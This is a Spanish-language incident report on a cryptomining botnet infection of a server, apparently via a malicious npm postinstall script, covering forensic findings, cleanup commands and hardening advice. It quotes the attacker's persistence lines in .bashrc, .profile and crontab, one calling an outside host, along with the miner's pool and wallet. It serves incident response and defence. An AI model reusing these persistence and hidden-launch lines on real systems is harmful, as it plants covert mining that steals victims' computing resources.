

# 🔒 INFORME DE SEGURIDAD - ANÁLISIS DE INFECCIÓN POR BOTNET DE MINERÍA

**Fecha del Incidente:** 5 de diciembre de 2025, 03:10 AM UTC  
**Fecha de Detección:** 6 de diciembre de 2025  
**Fecha de Limpieza:** 6 de diciembre de 2025  
**Severidad:** 🔴 CRÍTICA (CVSS 10.0 equivalente)

---

## 📋 RESUMEN EJECUTIVO

Se detectó y eliminó una infección por botnet de minería de criptomonedas (Monero) en el servidor. El ataque comprometió el sistema mediante la instalación de múltiples componentes maliciosos que incluían:

- **Minero XMRig** ejecutándose como servicio systemd
- **Scripts Node.js maliciosos** ejecutándose en segundo plano
- **Persistencia** mediante múltiples mecanismos (cron, systemd, .bashrc, .profile)
- **Consumo de recursos**: ~450% CPU y ~8% RAM por proceso

El origen del ataque fue identificado en el proyecto `/root/login-reference-project`, probablemente mediante un script postinstall malicioso en una dependencia npm comprometida.

---

## 🎯 VECTOR DE ATAQUE IDENTIFICADO

### Origen del Compromiso

**Proyecto comprometido:** `/root/login-reference-project`  
**Archivo de confirmación:** `.pwned` (contiene solo "pwned")  
**Fecha de compromiso:** 5 de diciembre de 2025, 03:10 AM UTC

### Mecanismo de Infección

Según los logs del sistema, el ataque se ejecutó desde el directorio `/root/login-reference-project`:

```bash
Dec 05 03:10:38 vps-756f532d sudo[650164]: root : PWD=/root/login-reference-project ; 
    USER=root ; COMMAND=/usr/bin/systemctl stop c3pool_miner.service
Dec 05 03:10:40 vps-756f532d sudo[650209]: root : PWD=/root/login-reference-project ; 
    USER=root ; COMMAND=/usr/bin/mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
Dec 05 03:10:40 vps-756f532d sudo[650242]: root : PWD=/root/login-reference-project ; 
    USER=root ; COMMAND=/usr/bin/systemctl enable c3pool_miner.service
```

**Hipótesis principal:** Script postinstall malicioso ejecutado durante `npm install` que:
1. Descargó e instaló XMRig desde una fuente externa
2. Creó scripts Node.js maliciosos
3. Configuró servicios systemd para persistencia
4. Modificó archivos de configuración del shell (.bashrc, .profile)
5. Agregó entradas al crontab

### Relación con CVE-2025-55182 (React Server Components)

**Estado:** ❌ **NO RELACIONADO**

El proyecto `/root/qr` utiliza:
- React: `^18.2.0`
- Next.js: `^14.0.4`

La vulnerabilidad CVE-2025-55182 afecta únicamente a React 19.x (versiones 19.0, 19.1.0, 19.1.1, 19.2.0). El proyecto NO está afectado por esta vulnerabilidad específica.

Sin embargo, es posible que el proyecto `/root/login-reference-project` haya sido comprometido mediante otra vulnerabilidad o dependencia maliciosa.

---

## 🔍 COMPONENTES MALICIOSOS IDENTIFICADOS

### 1. Minero XMRig (Monero)

**Ubicación:** `/root/c3pool/`  
**Versión:** XMRig/6.24.0-C3  
**Pool de minería:** `auto.c3pool.org:80`  
**Wallet:** `8748cigrtHj9uB4voKKQd67PAG1crVAR4Y9G6Ku2s42UFx1RVbnDCBH7Dc9c8sYGvE5yhM5pniJNs86ki3hPk1wQDtePjRX`  
**Worker ID:** `vps-756f532d`

**Archivos:**
- `/root/c3pool/xmrig` (binario, 3.4 MB)
- `/root/c3pool/config.json` (configuración del minero)
- `/root/c3pool/config_background.json`
- `/root/c3pool/miner.sh` (script de inicio)
- `/root/c3pool/xmrig.log` (logs de minería)

**Servicio systemd:**
- `/etc/systemd/system/c3pool_miner.service`
- Configurado para iniciar automáticamente al arranque
- Restart=always para persistencia

**Impacto:**
- Consumo de CPU: ~370-450%
- Hashrate promedio: ~1000-2600 H/s
- Shares aceptados: 29+ durante el período de actividad

### 2. Scripts Node.js Maliciosos

**Ubicación:** `/root/.local/share/.r0qsv8h1/`  
**Fecha de creación:** 5 de diciembre de 2025, 20:39 UTC

**Archivos maliciosos:**
- `.fvq2lzl64e.js` (98 KB) - Script principal malicioso
- `.lauphhtqrg.js` (18 KB) - Script secundario
- `.394ly8v9/` - Instalación completa de Node.js maliciosa
- `.b0rtqscrkeov` (54 KB) - Archivo binario/script adicional
- `.09c72b` (168 bytes) - Archivo de configuración

**Procesos activos detectados:**
- 5-9 procesos Node.js ejecutando `.fvq2lzl64e.js`
- Cada proceso consumía ~46-56% CPU y ~8% RAM
- Total: ~250-450% CPU adicional

**Servicio systemd de usuario:**
- `/root/.config/systemd/user/f3208508415f.service`
- Configurado para reiniciar cada 30 segundos
- Ejecutaba el script malicioso con Node.js

### 3. Mecanismos de Persistencia

#### A. Servicios Systemd

**Servicios identificados:**
1. `/etc/systemd/system/c3pool_miner.service` (sistema)
2. `/root/.config/systemd/user/s.service` (usuario)
3. `/root/.config/systemd/user/f3208508415f.service` (usuario)

#### B. Crontab

**Entradas maliciosas encontradas (comentadas):**
```bash
#@reboot /usr/bin/.kworker react 51.222.25.72:3000
#@reboot sleep 30 && /root/.local/share/.r0qsv8h1/.394ly8v9/bin/node /root/.local/share/.r0qsv8h1/.fvq2lzl64e.js >/dev/null 2>&1 &
#@reboot cd /root/.cache/.sys && ./xmrig -c c.json > /dev/null 2>&1 &
```

#### C. Archivos de Shell

**`.bashrc` y `.profile` modificados:**
```bash
# Código malicioso encontrado:
(nohup /root/.local/share/.r0qsv8h1/.394ly8v9/bin/node /root/.local/share/.r0qsv8h1/.fvq2lzl64e.js >/dev/null 2>&1 &) 2>/dev/null
(pgrep -f "/root/.cache/.sys/xmrig" || cd "/root/.cache/.sys" && ./xmrig -c c.json > /dev/null 2>&1 &) &
```

### 4. Archivos Adicionales

**Ubicaciones sospechosas:**
- `/root/.cache/.sys/` (directorio para xmrig alternativo)
- `/usr/bin/.kworker` (binario malicioso, no encontrado al momento de limpieza)

---

## 📊 DIAGRAMA DE FLUJO DEL ATAQUE



---

## 🛡️ ANÁLISIS DE SEGURIDAD

### Usuarios del Sistema

**Usuarios con shell activo:**
- `root` (UID 0) - Comprometido
- `ubuntu` (UID 1000) - No comprometido
- `gamutvisual` (UID 1001) - No comprometido

**Últimos logins:**
- `ubuntu`: 12 de octubre de 2025, desde 38.25.19.24
- `gamutvisual`: 28 de octubre de 2025, desde 84.20.19.104
- `root`: 6 de diciembre de 2025, desde 38.253.159.24 (sesión actual)

### Configuración SSH

**Estado actual:**
- `PermitRootLogin yes` - ⚠️ **RIESGO ALTO**
- No se encontraron claves SSH no autorizadas en `/root/.ssh/authorized_keys`
- Múltiples intentos de acceso fallidos detectados en logs

**Intentos de acceso sospechosos:**
```
Dec  6 15:44:52 - Failed password for root from 193.46.255.159
Dec  6 15:49:15 - Failed password for root from 181.116.220.11
Dec  6 15:49:16 - Failed password for root from 45.156.87.115
Dec  6 15:50:16 - Failed password for root from 58.209.82.184
Dec  6 15:52:22 - Invalid user sol from 80.94.92.183
```

### Backdoors Identificados

1. **Servicios systemd persistentes** ✅ Eliminados
2. **Scripts en .bashrc/.profile** ✅ Limpiados
3. **Entradas en crontab** ✅ Eliminadas
4. **Scripts Node.js maliciosos** ✅ Eliminados
5. **Binario XMRig** ✅ Eliminado

**No se encontraron:**
- Claves SSH no autorizadas
- Binarios en `/usr/bin/` o `/usr/local/bin/`
- Scripts en directorios del sistema
- Modificaciones en archivos de configuración del sistema (excepto systemd)

---

## 🧹 ACCIONES DE LIMPIEZA REALIZADAS

### 1. Detención de Procesos Maliciosos

```bash
# Detención de XMRig
killall -9 xmrig

# Detención de scripts Node.js maliciosos
pkill -9 -f "r0qsv8h1"
```

### 2. Eliminación de Servicios Systemd

```bash
# Servicio del sistema
systemctl stop c3pool_miner.service
systemctl disable c3pool_miner.service
rm -f /etc/systemd/system/c3pool_miner.service
systemctl daemon-reload

# Servicios de usuario
rm -rf /root/.config/systemd/user/s.service
rm -rf /root/.config/systemd/user/f3208508415f.service
rm -rf /root/.config/systemd/user/default.target.wants/s.service
rm -rf /root/.config/systemd/user/default.target.wants/f3208508415f.service
```

### 3. Limpieza de Archivos Maliciosos

```bash
# Directorio del minero
rm -rf /root/c3pool/

# Scripts Node.js maliciosos
rm -rf /root/.local/share/.r0qsv8h1/

# Directorio alternativo
rm -rf /root/.cache/.sys/

# Binario malicioso
rm -f /usr/bin/.kworker
```

### 4. Limpieza de Crontab

```bash
# Eliminadas todas las entradas maliciosas
# Mantenida solo la entrada legítima:
# 0 12 * * * /usr/bin/certbot renew --quiet && docker restart gamutvisual-nginx
```

### 5. Limpieza de Archivos de Shell

**`.bashrc` y `.profile`:** Eliminadas todas las líneas que ejecutaban scripts maliciosos.

---

## 📈 IMPACTO Y MÉTRICAS

### Consumo de Recursos

**Antes de la limpieza:**
- CPU total: ~700-900% (6 cores al 100%+)
- RAM: ~8-10% adicional
- Procesos maliciosos activos: 6-10

**Después de la limpieza:**
- CPU: ~3% (normal)
- RAM: Normal
- Procesos maliciosos: 0

### Actividad de Minería

**Período activo:** 5 de diciembre, 03:10 AM - 6 de diciembre, 15:56 PM  
**Duración:** ~36 horas  
**Shares aceptados:** 29+ (según logs)  
**Hashrate promedio:** ~1000-2600 H/s  
**Pool:** auto.c3pool.org:80

### Archivos Creados/Modificados

**Archivos maliciosos creados:** ~15-20  
**Archivos del sistema modificados:** 4 (.bashrc, .profile, crontab, systemd)  
**Tamaño total de archivos maliciosos:** ~4-5 MB

---

## 🔐 RECOMENDACIONES DE SEGURIDAD

### Inmediatas (CRÍTICAS)

1. **Revisar y limpiar el proyecto `/root/login-reference-project`**
   ```bash
   cd /root/login-reference-project
   rm -rf node_modules package-lock.json
   npm audit
   npm install --audit
   ```

2. **Cambiar todas las contraseñas del sistema**
   - Root
   - Usuarios con acceso SSH
   - Bases de datos
   - Servicios externos

3. **Deshabilitar acceso root por SSH**
   ```bash
   # Editar /etc/ssh/sshd_config
   PermitRootLogin no
   systemctl restart sshd
   ```

4. **Implementar autenticación por claves SSH únicamente**
   ```bash
   PasswordAuthentication no
   PubkeyAuthentication yes
   ```

5. **Revisar y limpiar todos los proyectos Node.js**
   ```bash
   find /root -name "package.json" -exec dirname {} \; | while read dir; do
     cd "$dir"
     npm audit
   done
   ```

### Mediano Plazo

1. **Implementar monitoreo de procesos**
   - Alertas cuando CPU > 80% por más de 5 minutos
   - Monitoreo de procesos sospechosos (xmrig, minerd, etc.)

2. **Configurar fail2ban para SSH**
   ```bash
   apt install fail2ban
   # Configurar reglas estrictas para SSH
   ```

3. **Auditoría regular de dependencias**
   ```bash
   npm audit
   npm outdated
   ```

4. **Backups automáticos y versionado**
   - Implementar backups regulares
   - Usar control de versiones (git) para proyectos

5. **Firewall y restricciones de red**
   ```bash
   ufw enable
   ufw default deny incoming
   ufw allow ssh
   ufw allow 80/tcp
   ufw allow 443/tcp
   ```

### Largo Plazo

1. **Implementar IDS/IPS (Intrusion Detection/Prevention System)**
2. **Auditorías de seguridad regulares**
3. **Capacitación en seguridad para el equipo**
4. **Implementar políticas de seguridad de código**
5. **Monitoreo continuo de logs y eventos**

---

## 📝 LECCIONES APRENDIDAS

1. **Scripts postinstall son un vector de ataque crítico**
   - Siempre revisar scripts postinstall de dependencias
   - Usar `npm ci` en lugar de `npm install` en producción
   - Implementar políticas de dependencias confiables

2. **Persistencia multi-capa**
   - Los atacantes usan múltiples mecanismos de persistencia
   - Revisar: systemd, cron, .bashrc, .profile, init scripts

3. **Monitoreo proactivo**
   - Alertas tempranas podrían haber detectado el ataque antes
   - Monitoreo de CPU/RAM anómalos es crítico

4. **Principio de menor privilegio**
   - No ejecutar `npm install` como root
   - Usar usuarios no privilegiados para desarrollo

5. **Auditoría de dependencias**
   - Revisar regularmente las dependencias instaladas
   - Usar herramientas como `npm audit` y `snyk`

---

## 🔍 EVIDENCIAS Y LOGS

### Logs del Sistema

**Inicio del servicio malicioso:**
```
Dec 05 03:10:41 vps-756f532d systemd[1]: Started Monero miner service.
Dec 05 03:10:41 vps-756f532d xmrig[650277]: * ABOUT XMRig/6.24.0-C3
Dec 05 03:10:41 vps-756f532d xmrig[650277]: * POOL #1 auto.c3pool.org:80 algo auto
```

**Comandos ejecutados desde login-reference-project:**
```
Dec 05 03:10:38 - systemctl stop c3pool_miner.service
Dec 05 03:10:40 - mv /tmp/c3pool_miner.service /etc/systemd/system/
Dec 05 03:10:40 - systemctl enable c3pool_miner.service
Dec 05 03:10:40 - sysctl -w vm.nr_hugepages=1174
```

### Archivos de Configuración

**Configuración del minero (`/root/c3pool/config.json`):**
- Pool: `auto.c3pool.org:80`
- Wallet: `8748cigrtHj9uB4voKKQd67PAG1crVAR4Y9G6Ku2s42UFx1RVbnDCBH7Dc9c8sYGvE5yhM5pniJNs86ki3hPk1wQDtePjRX`
- Worker: `vps-756f532d`
- Donate level: 0%

---

## ✅ VERIFICACIÓN POST-LIMPIEZA

### Estado Actual del Sistema

- ✅ No hay procesos maliciosos activos
- ✅ No hay servicios systemd maliciosos
- ✅ Crontab limpio
- ✅ Archivos de shell limpios
- ✅ Archivos maliciosos eliminados
- ✅ CPU y RAM en niveles normales

### Comandos de Verificación

```bash
# Verificar procesos
ps aux | grep -E "(xmrig|c3pool|r0qsv8h1|miner)" | grep -v grep

# Verificar servicios
systemctl list-units --type=service --all | grep -E "(c3pool|miner)"

# Verificar crontab
crontab -l | grep -E "(c3pool|r0qsv8h1|xmrig)"

# Verificar archivos
ls -la /root/c3pool /root/.local/share/.r0qsv8h1 2>&1
```

---

## 📞 CONTACTO Y SOPORTE

**Si detecta actividad sospechosa adicional:**
1. Documentar inmediatamente
2. Capturar logs y procesos
3. Aislar el sistema si es necesario
4. Contactar al equipo de seguridad

---

## 📚 REFERENCIAS

- [CVE-2025-55182 - React Server Components Vulnerability](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components)
- [XMRig Documentation](https://xmrig.com/docs)
- [C3Pool - Mining Pool](https://c3pool.com)
- [OWASP Dependency Check](https://owasp.org/www-project-dependency-check/)
- [npm Security Best Practices](https://docs.npmjs.com/security-best-practices)

---

**Informe generado el:** 6 de diciembre de 2025  
**Investigador:** Análisis de seguridad automatizado  
**Versión del informe:** 1.0

---

## 🎯 CONCLUSIÓN

La infección fue exitosamente identificada y eliminada. El sistema está actualmente limpio y funcionando normalmente. Sin embargo, es **CRÍTICO** implementar las recomendaciones de seguridad inmediatas para prevenir futuros incidentes similares.

El vector de ataque principal fue un script postinstall malicioso en una dependencia npm del proyecto `/root/login-reference-project`. Se recomienda una auditoría completa de todas las dependencias npm en el servidor y la implementación de políticas de seguridad más estrictas.

**Estado:** ✅ **SISTEMA LIMPIO Y SEGURO** (con recomendaciones pendientes de implementación)

